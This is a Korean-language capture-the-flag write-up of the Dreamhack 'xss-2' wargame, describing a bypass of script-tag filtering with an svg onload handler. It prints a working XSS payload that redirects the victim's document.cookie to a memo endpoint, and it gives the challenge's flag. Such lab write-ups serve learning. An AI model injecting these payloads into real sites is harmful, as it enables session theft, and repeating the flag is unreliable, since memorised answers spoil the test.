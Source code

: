 <!DOCTYPE html>
<html>
<head>
    <link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
    <h1> Dreamhack "xss-2"  Write-UP</h1>
</body>
<br>
<br>
</html>

2024.07.05 풀이

![image](https://github.com/user-attachments/assets/b404888d-c50e-42db-97c0-53437b9f7694)

https://chs777888.tistory.com/45

에서 xss-1 문제를 푼 후, 

조금 더 xss에 대해서, 학습하기 위해

Dreamhack 워게임에 있는 1 단계의 

xss-2 를 풀어보려고 한다.

<br>
</br>
 
일단 해당 서버에 접속해보니, xss-1과 비슷하게 세 페이지가 나온다.

![image](https://github.com/user-attachments/assets/76992046-2b03-42cb-a33d-d1aa8e9cc46c)

![image](https://github.com/user-attachments/assets/515df7ae-fb1b-4672-b90b-70cff4e61197)


다만 조금 다른 점은, vuln 페이지에서 1이라는 말을 하는 알림창이 뜨지 않는 것이다.

 <br>
</br>

![image](https://github.com/user-attachments/assets/e8dca5df-d444-4389-a5b5-388942c63962)

![image](https://github.com/user-attachments/assets/f7536c37-c97f-484e-829c-175c79991b51)

그 후, 문제를 다운받은 후, 압축을 풀어보니, 여러 파일들이 있었는데,

그 파일 중, app.py 파이썬 코드를 열어보았다.

<br>

</br>

![image](https://github.com/user-attachments/assets/d24f4298-b5d0-40c5-81c0-e9408e689bb8)

![image](https://github.com/user-attachments/assets/3ebff2b9-a31e-45fd-aa30-c1ad0e032f81)
 
![image](https://github.com/user-attachments/assets/db40ef78-e164-4631-8cf7-c5e23a335231)


위의 소스 코드를 보니, vuln에서 param을 return 하는 코드가 빠진 거 외에는

xss-1과 똑같은 코드였다.

 <br>
</br>

저번 xss-1에는 1이라는 알림창을 뜨게 하기 위해

<script>alert(1)</script> 이 있었는데,

이번에는 <script>alert(1)</script>이 있는데도,

이 스크립트 태그가 작동하지 않는 것을 확인할 수 있다. 

스크립트 태그 대신에 다른 것을 입력해야 할 것 같다.

이를 우회해서 할 수 있는 방법이 뭐가 있을까하고 인터넷을 찾아본 결과,

해당 스크립트 태그 대신에,

<svg onload=>를 사용하는 경우들을 발견하였다.

 <br>
</br>

이를 참고하여, vuln 페이지 주소창에 <svg onload="alert('1')">을

뒤에 이어붙이니까,

  <br>
  
</br>

![image](https://github.com/user-attachments/assets/0f685328-0881-4ddd-be5b-73782fbbc13d)

다시 1이라는 알림창이 생겼다. 

그래서, 전에 xss-1에서 썼던 코드를 <svg onload=> 형식으로

작성하였다.

 <br>
</br>

```
<svg onload="location.href = 'http://127.0.0.1:8000/memo?memo=' + document.cookie">
```

 <br>
</br>

 ![image](https://github.com/user-attachments/assets/7a0011c6-442c-4c75-9984-f7bd691a9501)

![image](https://github.com/user-attachments/assets/bc4d5054-62cd-455e-a7b4-b0cad747a480)

이를 flag 페이지에 입력해보니, good 알림창이 뜬 것을 확인할 수 있다.

<br>

</br> 

![image](https://github.com/user-attachments/assets/e3f64ee2-fe8f-45f9-a0e6-42dea1aa530f)

그 후, 메모 페이지를 가보니, flag 값이 기록된 것을 확인할 수 있다.....!

 <br>

</br>

```
flag=DH{3c01577e9542ec24d68ba0ffb846508f}
``` 
 <br>
</br>

![image](https://github.com/user-attachments/assets/7633ddaf-c82f-41da-b009-02af6d126bbc)

 


